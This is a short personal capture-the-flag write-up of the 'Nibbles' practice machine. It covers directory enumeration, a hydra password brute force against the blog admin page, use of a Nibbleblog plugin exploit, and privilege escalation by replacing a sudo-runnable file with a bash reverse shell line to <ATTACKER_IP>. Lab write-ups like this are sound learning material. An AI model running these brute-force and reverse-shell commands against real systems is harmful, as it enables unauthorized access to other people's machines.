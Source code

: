 # Nibbles

<!-- <summary2><strong>What I Learned</strong></summary2> -->

### What I Learned

<!-- <body> -->

1. Always check machine password settings before brute forcing machine. Could end up with a locked out machine otherwise
2. Writing this from 2 months after I did this machine, I'm kind of embarrassed by how bad this writeup is, but I will keep it up to remind myself how far I have come.
<!-- </body> -->

<details>
  <summary><strong>Writeup Summary</strong></summary>
Scan using nmap. Find the website and analyze the pages using feroxbuster. Look through the files to find a username. Once a username is found, use hydra to brute force passwords and get blacklisted. Try some different passwords like "admin" and "password", but the password is "nibbles". Login to the website. Look on searchsploit for nibbleblog exploits and use it against the nibbleblog plugin and get a shell. Find what commands you can run (sudo -l). Replace the single file with root access and executability with a reverse shell and run it to get a root shell.

</details>
<br>

## Writeup

Start by scanning the machine for open ports

Nmap

Use Feroxbuster to find other directories

- feroxbuster -u http://10.129.62.214/nibbleblog -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt

Find username admin in files

- http://10.129.62.214/nibbleblog/content/private/users.xml

![alt text](images/image.png)

Use Hydra to brute force passwords

- hydra -l admin -P ./xato-net-10-million-passwords-10000.txt 10.129.62.214 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"

![alt text](images/image-1.png)

Try passwords after getting locked out of box and resetting it
Get access to CLI as user nibbler

Run these commands for enumeration

- `cat /etc/passwd | grep sh$`
- `sudo -l`
- `cat /etc/fstab`

Find sudoable command for running as root
•`sudo -l`

Replace the sudo shell file contents with reverse shell

`nohup bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1`
